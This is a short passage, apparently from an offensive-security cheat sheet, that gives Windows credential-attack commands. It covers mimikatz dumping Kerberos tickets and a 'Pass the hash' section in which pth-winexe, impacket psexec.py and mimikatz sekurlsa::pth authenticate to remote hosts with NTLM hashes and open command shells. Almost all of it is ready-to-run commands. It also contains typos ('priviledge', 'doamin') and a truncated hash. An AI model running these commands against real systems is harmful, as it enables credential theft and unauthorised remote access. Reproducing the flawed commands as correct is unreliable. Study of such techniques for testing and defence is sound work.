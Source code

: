 ```sh
mimikatz.exe "priviledge::debug" "sekurlsa::tickets" exit
```

#### Pass the hash

Allows an attacker to authenticate to a remote system or service using a user's NTLM hash instead of the associated plaintext password

{% code overflow="wrap" %}
```sh
pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd
```
{% endcode %}

{% code overflow="wrap" %}
```sh
psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e Administrator@10.0.0.4
```
{% endcode %}

{% code overflow="wrap" %}
```sh
mimikatz.exe "priviledge::debug" "sekurlsa::pth /user:jeff /domain:doamin /ntlm:d4ad8b9f8ccb87f6d02d7388157ae" exit
```
{% endcode %}
